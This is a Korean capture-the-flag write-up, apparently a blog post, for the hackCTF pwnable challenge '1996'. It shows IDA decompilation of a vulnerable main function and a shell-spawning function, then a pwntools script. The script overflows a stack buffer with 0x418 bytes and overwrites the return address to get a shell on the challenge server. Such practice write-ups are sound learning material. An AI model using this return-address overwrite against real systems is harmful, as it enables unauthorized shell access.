 ```yaml
---
layout: post
title:  "[hackCTF]1996"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 14번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rax
  __int64 v5; // rdx
  __int64 v6; // rbx
  char *v7; // rax
  __int64 v8; // rdx
  __int64 v9; // rax
  char name; // [rsp+0h] [rbp-410h]

  std::operator<<<std::char_traits<char>>(&_bss_start, "Which environment variable do you want to read? ", envp);
  std::operator>><char,std::char_traits<char>>(&std::cin, &name);
  v4 = std::operator<<<std::char_traits<char>>(&_bss_start, &name, v3);
  v6 = std::operator<<<std::char_traits<char>>(v4, "=", v5);
  v7 = getenv(&name);
  v9 = std::operator<<<std::char_traits<char>>(v6, v7, v8);
  std::ostream::operator<<(v9, &std::endl<char,std::char_traits<char>>);
  return 0;
}
```

## ida - spawn_shell(void)
```c
int spawn_shell(void)
{
  char *argv; // [rsp+0h] [rbp-10h]
  __int64 v2; // [rsp+8h] [rbp-8h]

  argv = "/bin/bash";
  v2 = 0LL;
  return execve("/bin/bash", &argv, 0LL); // 쉘을 띄울 수 있다
}
```

main함수는 문자열을 입력 받아 그 값이 환경변수이면 경로를 출력한다. spawn_shell 함수는 flag를 출력하므로 main 함수의 ret을 spawn_shell의 주소로 덮어 문제를 해결하자.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3013)

payload = "A"*0x418+p64(0x400897)

p.sendline(payload)

p.interactive()
```

## 결과
![1401](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/1401.JPG?raw=true)
